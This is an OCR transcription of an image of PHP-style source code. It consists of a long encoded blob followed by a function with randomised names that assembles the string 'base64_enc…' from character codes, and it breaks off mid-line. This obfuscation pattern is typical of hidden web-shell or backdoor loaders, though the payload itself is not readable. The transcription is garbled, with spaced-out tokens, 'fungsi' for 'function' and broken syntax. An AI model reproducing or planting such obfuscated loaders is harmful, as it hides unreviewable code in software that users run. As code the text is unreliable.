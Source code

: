 ql5ZTE64CaG9mHpq ++ uPD7 + WnEdoxXQGg / gTxVs9GQldD2NmPbw + ZON42 // HLL / qTxjZpwXYnNW9ZYf59pUqLyIEdr / I135t0pZVDX3p0WLaxQ0Nc6 + / qCxa / bHCtyBzvf2qdn8d8 + pl6kpt2 + nD2zPyO2ZBn + dv1HOcgUFkMz + bj + QBTZF5DGhg8rgQTZEzCAZsZ20rG9M32ABNxW6Gcaw3aaB40iQnoabDHpcdNU5PBUNr5OF / iQBH7tHBDW8KN6DmNzOxbiOXR5hw ++ 2BC63OHmmvwTcDlZZmo9Q2K4E / gHZF509rHYC3raxieYKTYL + o + G5Zuq9xNgZtyTazXtCK2JiG9ju + Gh7f0JyhYPoxvL0kd6jZ1X3a3SLk7TMl0NzVyQG9Ba5u2LhNdtyAHjC8xvymSWJsWN5BgYB6hYHFRvFko0ywBgoO3W4brtkEAPIsv7WGQ / bIRlSBqdqcuPaIyJH9ObmWvpTV0PD2gvQwUNrHyy9z8RjpKXAZi8SI751r0rKvc0pvPiKiAea / bHkorRyW9337wTv45Qy8mkCkWbXxr3VGO9uzDkU4vvtozcmD9aSudOh3fKrARnmZWL58qPZGb3zJV / KXwizN7YhdcBinpKUnE1PSj + qoEnOdcF54IphLF1ewr0985kKw2mpDlJbnFuy0ivUaCGPc3mSDAdCqg8P1K1uBIibBjbFRJCaiRH + mv3LQ8srDao / h / mNo3up8OgPelNLiFGDZnqOSPW2okuRgO49zWcu5BNxK65FkQt1cUUZp0MX0Tl7u2H8EN46zTvT015wQw6EnZoXZ6dSLh3Ay + Hy + zSTb / fIuywj17Sf29TtsNlx + isIdRkBAYFu4OdPKdCMivK6iyH6aRVHVvNPL3sS0yvJI5Tn5DXjXmNz1s7GEWnTSdzmV6VMbTAva6VkPGCuK79Nk59ttRW28pgfOsnjSh6T9yE3gzhkHx + KNR9hOkkMFo + NpCIXns88oLNpwXboplDFaEu / GsK3vfX3oAlw4aVurptM25EyQci / BuAP3Im1rRNntD3 / XyzcFiqNYHNuszKa4Sb338Dt8xW / 7EiRNj / NPRjsRE + X0LgDYvOGP + Wvy2rENcVi7hXiOE8JxnBLSJ4hMV2BnRb8ZwwdYONg + 1Yg2SzcZMWqE9Fe0qI99UWflqJ84DlMPTLXiqLQ7gZk8IWaAjhSh3Nrz4QuFMay2V3f29CnoZ / QPtkig2O + w6MGpvjjdT2ejZVgsBU7zO8uJN2BDxxcGomztWj + zsDAMJcMj / haldMMQaj9Z8 + cumV6 / HUPvADoGf + IUkGbMbb4bLvM08uNSq / RkwOwLttZXHAnVz / fwRN9QD7ue8ZUngWzKfQVtwuWbd2dhVia0WwvuayVO / 3mexJhfQDrgtEhDwnuuAITYgSnidz9rBYzrhxANstC4 / 7kvRvi5bDpHX5MYqOERbZOKvr22ZBBA5d / Z2IE2NovPDjsRvEuYMU9I6EQyCUcwF + zx6xs3OZmOs + f + M + 3SxjxaSAOwPNzDRfU4Mz6yJGOcU9aMYiEIU0BPHxXvmV4m + 05JXov / xq70RukjWwQqk6VHqmH1BNPyBxhdaLDjKjBfgRNpBseCwVV / z19otLsL4FR9XuE9NbzIzfZytR6jpVPf5UJ2xBVKMOdNCy51f5zmDwgTiGoIMJvOXN0fL5R7tjKpI4e2twiMGyix4QxQFL06chDMvErYKtdMFc3NxsDsbNNm5ifED1cJH0KikwOYZ4ttUFZDTG + pyiB41CeXt6ZDFYEMQbcFefru2cV2zDXQNeNuoI4m26V + L8uGCEBWScnneD63e3B759v3N9Olh + 00K05a + mtBwXwixQ36h10yYlkwUI3VYRlyWpuvk9Zl6Mwr / ZLuGGDle8yP14q3PAz + aBXyFkHCluNd0hbazN + N + ISl28D04oYOL936MctEoUJOcrLqe3BkFmPZxKPSYNFS1xJLWShtpNdRssUV / viuzwQhxREthqKvVgeYMiAIWMjeqwv3Uc8hTbZv + EkDjVw2y + 3N7H9s0KXXoS3WZtxNqCD9k9pCzOLffN + YtEnLwwjMgdJiBpy / yhbYrNL2RVguEw1vaNtclpOqZ6lDMiqD / 6OhQAjQjHJR + kLu5lWIsT53MDT5cy3rODB50 / rB6ML + Q6Xk + pVHQnOlZ357HFqfBPvZcagHGcrct8nRDRuL9QaCehMGEZ8RwR8tnH / 63EoGn8PMNsYgSNmQ + / pgZjuxklaS64RPiUbPyCk7oparXQ + ZFfw2KTZJcw / qqRWh3LrMhedMr5l5RtfEid2Ota5P6ex459XxpEJa6AS / PIhNP + gtT5EI892iYwzCO + 34jvb91UHuCDv4KuTLNF57AV2iwq / AQyh3fCtviDPQWiCnq41KHtmMXU3DRPy1Bjaj47u35MJv7 + uucEo7wAaqzkH8gt + G5Livf / fye2okrciEnDc2U + cSwAWzhHpAXAsnSJHrPKy5xR6TTG + plHoAxQh + 8cC94k / TnglhioeNfps1Gy6f3DTJdFowljTNNG2mNHdN0lfOGMqEac65PxhNNDNVc9s4yGv0jxc5bcADjS / moAuYDnFh / o4Cy9xc6y5wkoL1 / E9iaxWdcNkbZRdN / KAyzp2sh1vT6sIQhueEOlNBoFKG3MPMejNTQh5sPZ7Hki1OyzT6MrAWtkdvEQGxeb8R8BLITGZKzGlvF3k / SNngnFNDiK1Zur8mAbWeMqDmb + iPru9yaDYascgC06enRua5YK1lVIIsxX8RICZrMT9OTdyDE7hFc5jrQ981DAmfsyce85MGOG1Bz + / VtOF7Yb0Ay96QMiWbRPIwEUThxNaDLJLnQc0Y4QUcAD4U4HkAcDj3kMHICIdniuWykvTckedudgHEdYYS7IhT5pOvRR + tTLZ94p7h2Sg + vcNrtj2bfwnuqZY9gL + ONYGMWsZ8sM2DUVhgohtXOxdM81W2nRRbPhUGzijc0atHw3Zj8vyiscYfqea0FUW0NflS93huMSYXxUn9q / gUDrllXtIBSVzRWuCQm5m / FcgfibzPhXJm3pn5xNx9jH5SEP6XfQ2NYMTq2D9oabTskc90pJ5XAO6n5wO8zg4svfTtAgQp7boqN9aiWoqEECUnLNNQNIy9FWUaF4eBJP0KSGVjUe0nQ9q4Lx2Cdc8mgwo52XWWXUwM319Prdd0MoDC9um8U6BKOSwgGfhaaOUw9LsiSEIBJmcgBNBUUXb3NGcv1 + 8V9KGFpoA5Yeu7m9Ay / a9HshCCheclFaLkNYdoHGQ7j9CEohS + Q3NLiB7gHDaOyPG0gyaFYcynjb5ekC4B1y6R58EbeLJ / 7eyWX2KNMXBJth26CGLwYEcrM5A4aXag + fpU3B4aGsiGbYP5DwwXjEkK4LwJg1 + 7SXJAB3MZ48y5H8xLMcEfwZpsKaaje4CtPLGhmeSKH3F0ujE8O8gwHxi9QW3S03PPoHX0GvJX0M8KKJCZXNsnO8SewOeCn3jYffE + nrk8qvChgTtojyBvLizuCssz0e4tdS30lGBybsQqBxZmggFoRZ9mJ88sbaOsVsmmRHcjkSuaA2zQQ3QSb8dGqUATLHKAwKIDNevRT1hx3ppGqMReCLIkFoGjLKoDwDXM1QTaSPtQMV4W4c + gin / bnM8XxZUqaCE + 1GDwljuYMJb0NRQo6aVdXRBdMXFwAIW9H99a7eknhBIFHvGLGp7n2oYqDmd26pw8p1K7g0N3xl / 2NCUljxJhjIhfffCRI0sO26XbAmF5FomnvZRkGrCykp8WE5MBVgajaBqm4K8novXMHX1 + iHIcDeA9TEsbNnNYF0ONQedkCTyw6akmoo7jM8s + / YeszEX4lqi8 + z18ar9bCEvVp2tebiO02059kvCTzQiane7Hd1kWdAHm2P / LSvg67wcml04xmq / ExJzlOVwGB00wArNfW5KxUlaKBE7FeqUDktE + kFVL / Xf7j + 0wJDqytg4yDQ6PHoTbqDvMDk6Hl / tNf2dE06aSEukrdycV2UvlhwGSU + t1QrGzmfzJgZ2WGG1f6kJlvPu2fFDlqTArG19oTvRa1D + GJss2W1co1SaSNGjk22JM90jzua / rujR3dtcdRvewT2U2veWufUXBvKvrrlcWOVH1dGxOrTA2Yo9LN9YzqT2 + ep6rOJSN6EmEo1U0QY2Te32jCYVYZ + ONtDwqDTT88BXRFUtH / FyK / yi4wIHRlqnXLcLJL8qqgiYe / 3fw5 / CtaYuh0GGjaWCACSbvwKDPpCEwjlVdFMfMYSa8wZ7zGzzyiPOdT6oZsJBNxUmLs2IQax3ecSs7dsmJ + 9hUMOAb1UWayJF + rtW9sBUiidIODGjr1MrhO3qIVNMcLefuCkMx3MuTz6xMgQka5naHsh25KhZTIOo4stfgHiWAOSy / FNdeuy5 + Zfmvz9YzAoQhflfNkFni / 4DxleAkwGCORtA2uliymh / dTLY9K6p / AIeKQSk4L5sslBgjeIp0NBBvdh + / QLAB26dl8z7OAWMDX1GKt2Gt6 + 10ey7mu0r2 + Whz4yBIpc5SfLjR3z0tXq2tWFs / JJvsBznZ / BAOx / Vu0Qvz4uYt6c / mE5CrbvH4Vi0Uk7P7ygV / + nz48JzPy1VUHlKVGCT1Y0S6MuE6V4qfhOfSeRmNYaXlqYGJXcj2nPHvc1yFlWSrJAbUBG1NLAvmpz81cCHr2K5xxAEbwuYQH / zNA2ClYi / xbO0sIYtOuodeEZWOlTU7tSEpSEE9C + iGYJ3MAPxfVnaTjH / EcAo9kJQRC2kZtrWMGgOBwaSuqVDnpadN + KJcZrU4tLUSPtlelLXWlyJQAzH / lP96G + kaRSdf06Sf4KxC9QIWFDei + P / 653sFStWyBFgm / vD3vYBHcS5x1TOLawRwaLGHp5HpjgEWK14cwxXNS4mhYboYX48xhNX / V1yTTQDjn1C50ObK8RlDbA6i5AWwLMqXzE93jWwaIechkqwESJdXA82YqSeRICQopKXovlm8XzqOCkBC2OEQNrjWe2cS / bOA5nIEMxr66tDiKZeYONXE5V2gcks4dg5rDcWNO6c5NX207dcUBybhS18bqFE / 3BXiF1gx / 9eF74lrDsQ == '))); fungsi MEGTvnZyOVrltDjdDEOO ($ xBsFxbKdcRJyRbgltxom) {$ uFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg (98); $ . uFSsuolEzkUndVzznITY = "\ x61";. $ uFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg (115); $ uFSsuolEzkUndVzznITY = "\ X65";. $ uFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg (54);. $ uFSsuolEzkUndVzznITY = "\ x34";.. $ uFSsuolEzkUndVzznITY = FdFtviGDGBpxPDrAOYhg ( 95); $ uFSsuolEzkUndVzznITY. = "\ X65"; $ uFSsuolEzkUndVzznITY. = FdFtviGDGBpxPDrAOYhg (110);$ UFSsuolEzkUndVzznITY = "\ x63";.. $
